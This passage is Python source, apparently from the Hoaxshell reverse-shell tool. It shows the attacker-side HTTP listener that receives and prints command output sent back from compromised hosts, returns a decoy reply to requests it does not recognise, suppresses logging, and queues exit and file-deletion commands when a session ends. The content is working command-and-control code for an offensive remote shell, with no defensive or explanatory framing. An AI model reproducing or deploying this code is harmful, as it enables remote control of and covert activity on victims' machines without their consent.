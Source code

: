 			try:
				self.send_response(200)
				self.send_header('Access-Control-Allow-Origin', '*')
				self.send_header('Content-Type', 'text/plain')
				self.end_headers()
				self.wfile.write(b'OK')
				content_len = int(self.headers.get('Content-Length'))
				output = self.rfile.read(content_len)
				output = Hoaxshell.cmd_output_interpreter(self, output, constraint_mode = args.constraint_mode)
				
				if output:				
					print(f'\r{GREEN}{output}{END}')
					
					
			except ConnectionResetError:
				print(f'[{FAILED}] There was an error reading the response, most likely because of the size (Content-Length: {self.headers.get("Content-Length")}). Try redirecting the command\'s output to a file and transfering it to your machine.')

			rst_prompt(prompt = prompt)
			Hoaxshell.prompt_ready = True

		else:
			self.send_response(200)
			self.end_headers()
			self.wfile.write(b'Move on mate.')
			pass



	def do_OPTIONS(self):

		self.server_version = Hoaxshell.server_version
		self.sys_version = ""
		self.send_response(200)
		self.send_header('Access-Control-Allow-Origin', self.headers["Origin"])
		self.send_header('Vary', "Origin")
		self.send_header('Access-Control-Allow-Credentials', 'true')
		self.send_header('Access-Control-Allow-Headers', Hoaxshell.header_id)
		self.end_headers()
		self.wfile.write(b'OK')


	def log_message(self, format, *args):
		return


	def dropSession():

		print(f'\r[{WARN}] Closing session elegantly...')

		if t_process:
			t_process.terminate()
		
		if not args.exec_outfile:
			Hoaxshell.command_pool.append('exit')
		else:
			Hoaxshell.command_pool.append(f'del {args.exec_outfile};exit')	
			